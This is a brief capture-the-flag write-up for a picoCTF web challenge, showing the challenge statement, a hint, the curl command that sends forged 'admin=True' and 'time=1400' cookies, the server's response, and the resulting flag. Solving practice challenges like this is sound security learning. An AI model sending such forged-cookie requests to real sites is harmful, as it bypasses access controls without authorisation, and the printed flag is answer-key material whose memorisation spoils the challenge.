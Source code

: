 Are you a master of the cookies??

***Challenge Statement***
This secure website allows users to access the flag only if 
they are "admin" and if the "time" is exactly 1400. 
https://2019shell1.picoctf.com/problem/12276/ 

Hint 1  : Check out an extension called edit this cookie on a chrome browser
(Or learn about the "curl" command)


>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>.
>>>>curl "https://2019shell1.picoctf.com/problem/12276/flag" -H "Cookie: time=1400; admin=True;" -s | grep picoCTF
<p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{0p3n_t0_adm1n5_dcb566bb}</code></p>
>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>
flag = picoCTF{0p3n_t0_adm1n5_dcb566bb}


